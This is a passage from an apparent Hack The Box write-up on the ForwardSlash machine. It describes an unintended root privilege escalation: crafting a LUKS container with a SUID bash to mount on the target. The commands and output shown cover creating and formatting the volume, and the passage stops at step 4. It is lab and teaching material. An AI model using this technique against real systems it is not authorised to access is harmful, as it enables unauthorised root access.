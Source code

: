 As we can see here, the encrypted backup is located here in `/var/backups/recovery/`.

```
pain@forwardslash:~$ ls -l /var/backups/recovery/
total 976568
-rw-r----- 1 root backupoperator 1000000000 Mar 24 12:12 encrypted_backup.img
```

The `encrypter.py` script is some crypto challenge that we have to solve to recover the Luks volume encryption key. 

![](/assets/images/htb-writeup-forwardslash/encrypter.png)

I didn't feel like solving a crypto challenge that weekend so I chose an unintended route to solve this one. Since we can open and mount Luks containers there's nothing stopping us from mounting a volume with an arbitrary program placed into it. The attributes set on the program files will also be used by the operating system so if we make something SUID like `bash` for example, then we'll be able to escalate root privileges easily.

Step 1. First, we'll create an empty virtual disk 
```
# dd if=/dev/zero of=luksvolume1 bs=1M count=64
64+0 records in
64+0 records out
67108864 bytes (67 MB, 64 MiB) copied, 0.0982699 s, 683 MB/s
```

Step 2. Then we format & encrypt it with LUKS (we pick an arbitrary password)
```
# cryptsetup -vy luksFormat luksvolume1

WARNING!
========
This will overwrite data on luksvolume1 irrevocably.

Are you sure? (Type 'yes' in capital letters): YES
Enter passphrase for luksvolume1: 
Verify passphrase: 
Key slot 0 created.
Command successful.
```

Step 3. Next, we open the new encrypted container
```
# cryptsetup luksOpen luksvolume1 myluksvol1
Enter passphrase for luksvolume1: 
```

Step 4. And create the ext4 filesystem on it
```
# mkfs.ext4 /dev/mapper/myluksvol1
mke2fs 1.45.6 (20-Mar-2020)
Creating filesystem with 49152 1k blocks and 12288 inodes
Filesystem UUID: d4482c0c-1970-4956-9ffa-8b8105f19cdd
Superblock backups stored on blocks: 
	8193, 24577, 40961

Allocating group tables: done                            
Writing inode tables: done                            
Creating journal (4096 blocks): done
Writing superblocks and filesystem accounting information: done
```
